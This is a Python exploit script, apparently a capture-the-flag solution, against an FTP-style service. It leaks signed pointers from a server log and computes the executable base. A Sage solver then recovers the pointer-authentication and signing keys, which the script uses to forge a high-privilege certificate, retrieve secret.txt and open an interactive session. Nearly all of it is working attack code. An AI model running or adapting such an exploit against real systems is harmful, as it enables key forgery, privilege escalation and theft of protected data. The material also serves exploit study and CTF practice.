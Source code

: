 ```python

logf = pasv_cmd("RETR", "ftp.log")
leak1 = re.findall(b"(?s)User AAAABBBBCCCCDDDD(.+?) : Command", logf)[0]
leak2 = re.findall(b"(?s)User EEEEFFFFGGGGHHHH(.+?) : Command", logf)[0]
log.info("Leak 1: %s", leak1.hex())
log.info("Leak 2: %s", leak2.hex())

# Solve for keys
msg1 = u64(b"\x01anon\x00\x00\x00")
sig1 = u64(leak1[:8])
msg2 = u64(b"\x01anonymo")
sig2 = u64(leak2[:8])
ptrleak = u64(leak1[8:16])
assert ptrleak == u64(leak2[8:16]), "Sanity check fail"
exebase = (ptrleak & ~PAC_MASK) - 0x49c0

log.info("exe base: %#x", exebase)
log.info("Solving for keys with %#x=>%#x, %#x=>%#x", msg1, sig1, msg2, sig2)

res = subprocess.check_output(["sage", "hsm_solve.sage", str(msg1), str(sig1), str(msg2), str(sig2)])
keypairs = [tuple(map(int, row.split())) for row in res.strip().split(b"\n")]
for k1, k2 in keypairs:
    log.info("Candidate k1=%#x k2=%#x", k1, k2)

def sign(x, key=0):
    if isinstance(x, bytes):
        sig = 0
        for i in range(0, len(x), 8):
            chunk = u64(x[i:i+8].ljust(8, b"\0"))
            sig = crypt(chunk, sig, k1, k2)
        return sig
    return crypt(x, key, k1, k2)

def signptr(x, key=0):
    sig = sign(x, key)
    return x | (sig & PAC_MASK)

log.info("Test PAC: %x => %x (expected %x)",
    ptrleak & ~PAC_MASK, signptr(ptrleak & ~PAC_MASK), ptrleak)

# Get higher perms
for k1, k2 in keypairs:
    payload = b"perms=63&user=" + cyclic(0x60)
    sig = sign(payload)
    payload += b"&sig=%d" % sig
    resp = send_cmd("CERT", base64.b64encode(payload))
    if resp == "150 Ok":
        log.info("Confirmed k1=%#x k2=%#x", k1, k2)
        break
else:
    raise Exception("Failed to forge certificates...")

secret = pasv_cmd("RETR", "secret.txt")
log.info("Secret: %s", secret.decode())

s.interactive()
```
